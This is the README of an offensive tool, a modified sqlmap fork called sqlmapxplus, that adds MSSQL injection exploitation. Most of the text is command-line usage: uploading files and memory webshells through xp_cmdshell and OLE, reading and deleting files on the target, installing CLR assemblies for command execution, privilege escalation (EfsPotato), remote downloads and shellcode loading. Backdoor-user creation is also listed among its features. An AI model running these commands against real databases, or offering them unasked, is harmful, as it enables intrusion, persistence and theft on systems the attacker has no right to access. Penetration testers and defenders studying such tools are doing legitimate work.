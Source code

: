 ## sqlmapxplus

### 简介

在众多的地区性攻防演练中，SQL Server数据库堆叠注入仍有较高的爆洞频率，但因为一些常见的演练场景限制，如不出网、低权限、站库分离、终端防护、上线困难、权限维持繁琐等，仅一个--os-shell已经难满足我们的需求。

sqlmapxplus 基于sqlmap，对经典的数据库漏洞利用工具进行二开，参考各种解决方法，增加MSSQL数据库注入的利用方式。目前已完成部分二开，包括ole、xpcmdshell两种文件上传、内存马上传、clr安装功能，能够实现mssql注入场景下的自动化注入内存马、自动化提权、自动化添加后门用户、自动化远程文件下载、自动化shellcode加载功能。

1. **20240508更新说明**：
   新增开启ole功能、
   新增指定文件读取功能、
   新增指定文件移动功能、
   新增指定文件复制功能、
   新增指定文件删除功能、
   新增指定文件位置判断功能、
   新增存储过程查询功能、
   新增删除存储过程功能、
   修改ole上传方式、
   修改clr安装流程、
   修改clr命令执行方式、
   去除中文注释导致的报错
3. 针对实际网络过程中dll传输损失导致clr安装失败的问题（临时解决方法）
   发现在原--install-clr功能中使用的clr dll太大，在实战中往往需要注入的大量次数，如果注入过程中的某一次出现错误，会导致dll落地失败，无法成功打入dll，现将原本一键自动安装的流程去除，修改为用户需要根据实际的目标情况，自定义的dll安装、
   临时增加 --check-file 选项判断dll文件是否成功落地目标主机、
   临时增加--check-clr 判断用户自定义函数是否在数据库中加载成功

4. 为什么使用上传过程中会出现dll放大的问题
   转换为十六进制落地再还原导致的文件增大，如字母 A 经过十六进制 会转换 为 41，增大一倍

5. 自定义clr的问题（已完成）
   install-clr修改为，需要指定自定义的clr.dll路径，在提示框输入 用户自定义类名 用户自定义方法名
   clr_shell模式下执行clr函数的方式修改为： 用户自定义function 传入参数（已完成）

### Update

```
File system access:
--xp-upload   upload file by xp_cmdshell 
--ole-upload  upload file by ole 
--check-file  use xp_fileexis check file exist 
--ole-del  	  delete file by ole 
--ole-read    read file content by ole 
--ole-move    move file by ole 
--ole-copy    copy file by ole 

Operating system access:
--enable-clr        enable clr 
--disable-clr       disable clr
--enable-ole        enable ole 
--check-clr   check user-defined functions in the database
--del-clr   delete user-defined functions in the database
--install-clr       install clr
--clr-shell         clr shell 
--sharpshell-upload1  sharpshell upload1
--sharpshell-upload2  sharpshell upload2 
```
![image](https://github.com/co01cat/SqlmapXPlus/assets/63174234/29f0e265-3f1e-41be-9291-56e5767c6c5a)

### Usage

**about ole**:

```
# 开启 ole 利用功能
python sqlmap.py -r/-u xxx --enable-ole 

# 通过 ole 上传文件
python sqlmap.py -r/-u xxx --ole-upload local_file_path --file-dest remote_file_path

# 通过 ole 删除指定文件
python sqlmap.py -r/-u xxx --ole-del remote_file_path

# 通过 ole 阅读指定文件
python sqlmap.py -r/-u xxx --ole-read remote_file_path

# 通过 ole 移动并重命名文件
python sqlmap.py -r/-u xxx --ole-move remote_file_path1 --file-dest remote_file_path

# 通过 ole 复制文件
python sqlmap.py -r/-u xxx --ole-copy remote_file_path1 --file-dest remote_file_path2

# 通过 ole 实现的HttpListener内存马上传方式
# 默认上传至c:\Windows\tasks\listen.tmp.txt，需要以system权限运行
python sqlmap.py -r/-u xxx --sharpshell-upload2 
```

**other function:**

```
# 通过 xp_cmdshell 上传文件
python sqlmap.py -r/-u xxx --xp-upload local_file_path --file-dest remote_file_path

# 使用 xp_fileexis 来检查文件是否存在
python sqlmap.py -r/-u xxx --check-file remote_file_path

# 查询数据库中是否存在用户自定义函数
python sqlmap.py -r/-u xxx --check-clr clr_function_name

# 删除用户自定义函数
python sqlmap.py -r/-u xxx --del-clr clr_function_name

# 通过 xp_cmdshell实现的HttpListener内存马上传方式
# 默认上传至c:\Windows\tasks\listen.tmp.txt，需要以system权限运行
python sqlmap.py -r/-u xxx --sharpshell-upload1 
```

**about clr**:

```
# 开启 clr 利用功能
python sqlmap.py -r/-u xxx --enable-clr 

# 关闭 clr 利用功能
python sqlmap.py -r/-u xxx --disable-clr

# 进入 clr 安装模式
python sqlmap.py -r/-u xxx --install-clr

# 进入 clr-shell 命令交互模式
python sqlmap.py -r/-u xxx --clr-shell 

# clr dll 参考如下，更多其他dll请参考星球获取
# 存储过程类名Xplus，存储过程函数名需要注意大小写，分别为
# ClrExec、ClrEfsPotato、ClrDownload、ClrShellcodeLoader​
# 对应项目目录下单独功能的dll，分别为
clrexec.dll
clrefspotato.dll
clrdownload.dll
clrshellcodeloader.dl
```

### 其他

公众号：赛博大作战

知识星球：渗透测试宝典

旧版本的参考链接：https://mp.weixin.qq.com/s/nTYPKnl9XQLWhZ43sQV3xw

新版本的参考链接：https://mp.weixin.qq.com/s/6RpxXitEPt8rA1DFb56Oxw

### References

https://github.com/sqlmapproject/sqlmap 

https://github.com/uknowsec/SharpSQLTools

https://github.com/Anion3r/MSSQLProxy

https://mp.weixin.qq.com/s/X0cI85DdB17Wve2qzCRDbg

https://yzddmr6.com/posts/asp-net-memory-shell-httplistener/
